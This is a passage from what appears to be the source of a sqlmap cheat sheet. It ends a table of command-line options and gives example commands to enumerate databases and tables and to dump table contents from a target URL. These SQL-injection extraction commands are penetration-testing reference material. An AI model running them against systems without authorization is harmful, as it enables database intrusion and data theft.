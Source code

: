   <tr>
    <td><p><code>--results-file=RESULTSFILE</code></p></td>
    <td><p>Location of CSV results file in multiple targets mode</p></td>
  </tr>
  <tr>
    <td><p><code>--shell</code></p></td>
    <td><p>Prompt for an interactive sqlmap shell</p></td>
  </tr>
  <tr>
    <td><p><code>--tmp-dir=TMPDIR</code></p></td>
    <td><p>Local directory for storing temporary files</p></td>
  </tr>
  <tr>
    <td><p><code>--unstable</code></p></td>
    <td><p>Adjust options for unstable connections</p></td>
  </tr>
  <tr>
    <td><p><code>--update</code></p></td>
    <td><p>Update sqlmap</p></td>
  </tr>
  <tr>
    <td><p><code>--wizard</code></p></td>
    <td><p>Simple wizard interface for beginner users</p></td>
  </tr>
</table>


## SQLMap Examples: How To… 

### Enumerate Databases

How to enumerate the databases tables using SQLMap: 

{% highlight bash %}
sqlmap -u "https://highon.coffee" --dbs 
{% endhighlight %}

### Enumerate Tables 

How to enumerate the database tables using SQLMap: 

{% highlight bash %}
sqlmap -u "https://highon.coffee" -D "$database-name" --tables 
{% endhighlight %}

### SQLMap Dump DB Table

How to dump the contents of the table using SQLMap: 

{% highlight bash %}
sqlmap -u "https://highon.coffee" -D "$database-name" -T "$table-name" --dump 
{% endhighlight %}
